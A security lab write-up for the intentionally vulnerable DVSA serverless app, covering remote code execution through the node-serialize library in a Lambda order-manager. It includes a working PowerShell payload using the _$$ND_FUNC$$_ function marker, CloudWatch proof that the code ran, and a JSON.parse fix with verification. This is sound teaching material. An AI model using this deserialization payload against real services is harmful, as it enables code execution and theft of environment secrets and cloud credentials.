







# Lesson 9 — Vulnerable Dependencies (RCE via `node-serialize`)

## Goal & Summary

The `DVSA-ORDER-MANAGER` Lambda function uses [`node-serialize`](https://www.npmjs.com/package/node-serialize), a Node.js library known for [GHSA-q4v7-4rhw-9hqm](https://github.com/advisories/GHSA-q4v7-4rhw-9hqm) — a **critical Remote Code Execution** vulnerability with no patch. The library deserializes JavaScript functions encoded with the marker `_$$ND_FUNC$$_`. If the encoded function ends with `()`, it becomes an Immediately Invoked Function Expression and runs the moment the payload is parsed.

The function passes the raw HTTP body to `serialize.unserialize()` with no validation, so an attacker can put arbitrary JavaScript inside a JSON body and have it execute on the Lambda runtime — which means filesystem access, environment variables (Cognito secrets, database creds), and the function's IAM role.

This lesson:
- Confirms the vulnerable dependency with `npm audit`
- Sends a payload that writes and reads a file inside `/tmp` and logs the contents
- Captures the proof-of-execution in CloudWatch logs (`FILE READ SUCCESS`)
- Replaces `serialize.unserialize()` with `JSON.parse()` and removes the dependency
- Verifies the same payload now fails with a `SyntaxError` and never executes

## Root Cause

`node-serialize` is by design able to deserialize JavaScript functions. There is no safe mode and no patched version. The fix is to remove the library entirely and use `JSON.parse()`, which only handles data and cannot evaluate functions.

## Setup

| Item | Value |
|------|-------|
| API Endpoint | `https://6sbqodmni7.execute-api.us-east-1.amazonaws.com/Stage/order` |
| Vulnerable Lambda | `DVSA-ORDER-MANAGER` |
| Vulnerable file | `order-manager.js` (line 1: `require('node-serialize')`, lines 9–10: `serialize.unserialize(...)`) |
| Log group | `/aws/lambda/DVSA-ORDER-MANAGER` |
| Tools | PowerShell (`Invoke-WebRequest`), AWS Console, CloudWatch Logs, `npm audit` |

## Steps to reproduce the exploit

### 1. Confirm the vulnerable dependency

In the cloned DVSA backend folder for the `order-manager` function:

```powershell
npm install
npm audit
```

`npm audit` flags `node-serialize` as a critical-severity vulnerability with **no fix available**:



`package.json` shows the dependency directly:



### 2. Inspect the vulnerable code path

`order-manager.js` deserializes the entire request body with `serialize.unserialize()`:



The full vulnerable file is in [`code/order-manager-vulnerable.js`](./code/order-manager-vulnerable.js).

### 3. Send the malicious payload

In PowerShell, set the API URL and send a JSON body whose `action` field is a serialized JavaScript function. The full payload script is in [`code/exploit-payload.ps1`](./code/exploit-payload.ps1). The function writes a file, reads it back, and logs `FILE READ SUCCESS` so we can prove it ran:

```powershell
$API_URL = "https://6sbqodmni7.execute-api.us-east-1.amazonaws.com/Stage/order"
$body    = '{"action": "_$$ND_FUNC$$_function(){ var fs = require(\"fs\"); fs.writeFileSync(\"/tmp/pwned.txt\", \"You are reading the contents of my hacked file!\"); var fileData = fs.readFileSync(\"/tmp/pwned.txt\", \"utf-8\"); console.error(\"FILE READ SUCCESS: \" + fileData); }()", "cart-id": ""}'

Invoke-WebRequest -Uri $API_URL -Method POST -ContentType "application/json" -Body $body
```

The HTTP response is `Internal server error` — that's expected and is **not** the evidence of success. The real evidence is in CloudWatch.



### 4. Confirm execution in CloudWatch

CloudWatch → Log groups → `/aws/lambda/DVSA-ORDER-MANAGER` → newest log stream. The log entry shows the injected `console.error` output:
```
FILE READ SUCCESS: You are reading the contents of my hacked file!
```



This proves the attacker's JavaScript ran inside the Lambda — full filesystem access, environment variables, and IAM role permissions are all reachable.

## Fix

The patched code is in [`code/order-manager-fixed.js`](./code/order-manager-fixed.js). Three changes:

1. Remove the `const serialize = require('node-serialize');` import.
2. Replace `serialize.unserialize(event.body)` with `JSON.parse(event.body)`.
3. Replace `serialize.unserialize(event.headers)` with `JSON.parse(event.headers)` (or read headers directly from `event.headers` since API Gateway already gives them as an object — that is a further hardening).
4. Run `npm uninstall node-serialize` to drop the dependency.

```javascript
// Replaced serialize.unserialize() with safe JSON.parse()
var req     = JSON.parse(event.body);
var headers = JSON.parse(event.headers);
```



### Why this works

`JSON.parse()` is a native function defined by the ECMAScript spec. It produces only plain data structures (objects, arrays, strings, numbers, booleans, null) and has no codepath that evaluates a string as JavaScript. The marker `_$$ND_FUNC$$_` is just a string to `JSON.parse()`, and even if it were valid JSON it would never be executed.

## Verification

Re-deploy the patched Lambda. Send the **exact same** PowerShell payload from step 3.

CloudWatch now shows a `SyntaxError` from `JSON.parse` at `order-manager.js:10` — the parser rejected the payload as invalid JSON before any application logic ran. The string `FILE READ SUCCESS` no longer appears anywhere in the logs.



The injected function never executed.

## Analysis

### Table A — Behavior

| Vulnerability | Intended Rule | Artifacts | Normal Behavior | Exploit Behavior |
|---|---|---|---|---|
| Vulnerable Dependencies | Lambda must parse request input as data only and never evaluate user-controlled content; libraries that allow function execution from input must not be used | `order-manager.js`, `package.json`, `npm audit` report, CloudWatch logs, API request/response | A normal JSON request body is parsed safely and routed to the correct action handler with no side effects | Payload with `_$$ND_FUNC$$_` caused `node-serialize` to execute attacker JavaScript, confirmed by `FILE READ SUCCESS` in CloudWatch |

### Table B — Deviation & Remediation

| Vulnerability | Why a Deviation | Class | Fix Location | Post-Fix |
|---|---|---|---|---|
| Vulnerable Dependencies | The `node-serialize` library evaluates serialized functions during parsing — directly violating the rule that input must be data, not code | Intentional misuse / security-relevant abuse | Removed `node-serialize`, replaced `serialize.unserialize()` with `JSON.parse()` in `DVSA-ORDER-MANAGER/order-manager.js` | Same payload now triggers `SyntaxError` from `JSON.parse`; no `FILE READ SUCCESS` in CloudWatch |

## Takeaway

A single vulnerable dependency hands an attacker every permission your Lambda has — filesystem, environment variables, IAM role. `node-serialize` is a textbook example of "the library was designed for a use case that fundamentally conflicts with security." The defense is layered: audit dependencies (`npm audit`, Snyk, GitHub Dependabot), prefer native platform primitives (`JSON.parse()`) over third-party alternatives for handling user input, and never deserialize untrusted data through libraries that support executable content.
